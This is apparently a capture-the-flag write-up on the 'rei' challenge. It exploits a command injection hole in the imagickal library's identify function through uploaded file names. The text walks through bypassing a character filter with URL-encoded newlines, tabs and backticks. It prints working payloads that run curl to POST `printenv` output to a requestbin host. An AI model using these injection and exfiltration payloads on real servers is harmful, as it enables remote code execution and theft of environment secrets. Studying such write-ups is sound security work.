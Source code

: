 # rei [8 Points] - 0 Solves

```
SieberrHealth's chip seems to need image recognition technology to work.
One of the APIs discovered is an image metadata service.
Hack it and find out what its really doing.

(Note: Flag is found in the environment variables)
index.js: https://ghostbin.co/paste/svfn6 (note that the "safeFileNames" portion of this is slightly outdated)
Challenge hosted at http://rei.sieberrsec.tech/ 
```

Initial analysis of the site seems to suggest that it is some kind of image upload site. 

Let's take a look at the source code `index.js` which is provided:

```javascript
const express = require('express');
const fileUpload = require('express-fileupload');
const im = require('imagickal');
const fs = require('fs').promises;
const path = require('path');

const app = express();
app.use(fileUpload({
        debug: false,
        uploadTimeout: 60000,
        fileHandler: false,
        uriDecodeFileNames: true,
        safeFileNames: /[;&[\]>< |$()]/g,
        preserveExtension: false,
        limits: { fileSize: 1 * 1024 * 1024 },
        abortOnLimit: true,
        responseOnLimit: 'Please upload a file no larger than 1MiB',
        limitHandler: false,
        createParentPath: true,
        parseNested: false,
        useTempFiles: true,
        tempFileDir: path.join(process.cwd(), 'tmp')
}));

app.get('/', async (_, res) => {
        res.sendFile(path.join(__dirname, '/index.html'));
});
app.post('/upload', async (req, res) => {
        if (req.files.img.truncated) return;
        if (req.files.img == undefined || !['image/png', 'image/jpeg', 'image/gif'].includes(req.files.img.mimetype) || !['png', 'jpg', 'jpeg', 'gif'].includes(req.files.img.name.split('.')[req.files.img.name.split('.').length - 1])) {
                res.send('Please upload an image file');
                return;
        }
        req.files.img.mv(path.join(__dirname, '/uploads/', req.files.img.name));
        try {
                const imInfo = await im.identify(path.join(__dirname, '/uploads/', req.files.img.name));
                res.send(`<pre>File Format:  ${imInfo.format}\nImage Width:  ${imInfo.width}px\nImage Height: ${imInfo.height}px</pre>`);
        }
        catch (e) {
                console.error(e);
                res.send('An error occured while processing your image');
        }
        await fs.unlink(path.join(__dirname, '/uploads/', req.files.img.name));
});

app.listen(5500);
```

So when you upload a photo, a POST request is made to `/upload`:

- It checks if the **mimetype is an image** and if the **extension is an image extension** 
- It then moves the file to a /uploads/ and runs it through a `imagickal` library to obtain the format, width and height details `im.identify(path.join(__dirname, '/uploads/', req.files.img.name))`
- Finally it removes the image `await fs.unlink(path.join(__dirname, '/uploads/', req.files.img.name));`

Hmmm... nothing seems to be suspicious so far, perhaps let's check out the `imagickal` library, since we get a rather glaring hint on the site: `0 day` 

![](1.jpg)



## The OSINT

Looking at the issues in the `imagckal` github repo, we immediately spot something:

![](2.jpg)

and we spot something even more amazing:

![](3.jpg)

It looks like there was a command injection vulnerability discovered quite a few months back, with fixes proposed, but the author *closed them without merging the changes*. So this library is still very much vulnerable! *Not so much a 0day huh* 





## The Vulnerability

Looking at the vulnerability report, we can find a `Proof of Concept (POC)` showing exactly how we can inject the commands in:

```javascript
// poc.js
var im = require('./index.js');

im.dimensions('image.jpg; touch HACKED; #').then(function (dim) {
    console.log(dim.width);
    console.log(dim.height);
});
```

Although this shows the `dimensions()` function, the `identify` function is very much vulnerable too as we will see in a comment down this Pull Request.

Looking at the code of the `identify` function:

```javascript
exports.identify = function (path, verifyImage, callback) {
	if (typeof (verifyImage) === 'function') {
		callback = verifyImage;
		verifyImage = false;
	}

	const cmd = printf(
		'identify -format "{\\"format\\":\\"%m\\",\\"width\\":%w,\\"height\\":%h}" %s%s',
		verifyImage ? '-verbose ' : '',
		path instanceof Readable ? '-' : path
	);

	debug('identify', cmd);

	const promise = new Promise((resolve, reject) => {
		const shell = exec(cmd, Object.assign({ stdio: ['pipe'] }, globalOpts.execOptions || {}), (err, stdout) => {
			if (err) {
				if (err.message.match(/decode delegate/)) {
					return reject(new Error('Invalid image file'));
				}
				return reject(err);
			}

			let data;
			try {
				data = parseOutput(stdout.toString());
				data.format = data.format.toLowerCase();
				data.format = data.format === 'jpeg' ? 'jpg' : data.format;
			} catch (e) {
				return reject(new Error('Unable to parse identify data, output was:' + stdout.toString()));
			}

			if (!data) {
				return reject(new Error('Unable to identify image, output was:' + stdout.toString()));
			}

			resolve(data);
		});

		if (path instanceof Readable) {
			path.pipe(shell.stdin);
		}
	});

	return promise.asCallback(callback);
};
```

We can summarise how the code injection happens (which is fairly basic):

- One calls the `identify` function with the path to the file E.g: `im.identify(path.join(__dirname, '/uploads/', req.files.img.name))`

- The path is **pass into the main command string** via **printf format strings**: 

  ```javascript
  const cmd = printf(
  		'identify -format "{\\"format\\":\\"%m\\",\\"width\\":%w,\\"height\\":%h}" %s%s',
  		verifyImage ? '-verbose ' : '',
  		path instanceof Readable ? '-' : path
  	);
  ```

- This command string is then **passed straight into `exec` without any filtering whatsoever**

So technically, we can simply append our own commands after the `identify -format "{\\"format\\":\\"%m\\",\\"width\\":%w,\\"height\\":%h}"` via the **filename** and do whatever we like, just like how the `Proof of Concept` did it. However, there is a catch in this challenge.



## The Catch: WAF

It seems like in this challenge, there is an additional filter for our filenames as indicated in the source code: `safeFileNames: /[;&[\]>< |$()]/g` which means we can't run multiple commands the traditional way using `;` and `&`. Oh no :sweat:. (Not to mention spaces ` ` are also blocked)

What we could do instead is to use **`newlines \n`**! The normal way of telling the terminal that you are **entering a new command** has always been to **send a `\n` to the terminal**. But how will we send a newline via a filename? 

After looking at the source code for a bit more, you will realise that another option is set: ` uriDecodeFileNames: true` which means that we can **URL-Encode any special characters in the filename and it will be decoded**! (<u>Note:</u> The filter check is done on the filename **after decoding**, so encoding any illegal characters will still get rejected)

As for **spaces**, we can replace them with **tabs**!

With that, we can craft the payload with the `curl` command to execute `printenv`, which is where the flag is located:

```
image%2Ejpg%0Acurl%09%2DX%09POST%09%2Dd%09%22q%3D%09%60printenv%60%22%09https%3A%2F%2Frequestbin%2Eio%2Fywj9e0yw%23.jpg #URL-Encoded

image.jpg <newline \n>
curl	-X	POST	-d	"q=	`printenv`"	https://requestbin.io/ywj9e0yw#.jpg #URL-Decoded
```

<u>Note:</u> In here you can use **` `` `** to **execute the command we need (`printenv`)** since **piping `|`, redirection `>` and `$()` are all blocked** 

and with that, we get the flag is our requestbin :happy:

```
IRS{W41T_175_JU5T_WH1T3H4CK5?-4LW4Y5_H45_B33N}
```





## Learning Points:

1. Always check out the libraries being used in your API, some might very well be vulnerable to simple command injection
2. You can use **`newlines \n`** to **replace** `;` and `&` in bypassing WAFs to **inject commands**.
3. Using `tabs` to replace `spaces ` when `spaces` are blocked.
4. A less common way is to use ` `` ` in order to run commands, in replacement of `$()` 

### Alternative Payload using ` `` ` directly:

```
image%09%60curl%09%2DX%09POST%09%2Dd%09%27hello%27%09https%3A%2F%2Frequestbin%2Eio%2F1jubwz61%60%23.jpg #URL-Encoded

image	`curl	-X	POST	-d	'hello'	https://requestbin.io/1jubwz61`#.jpg
```

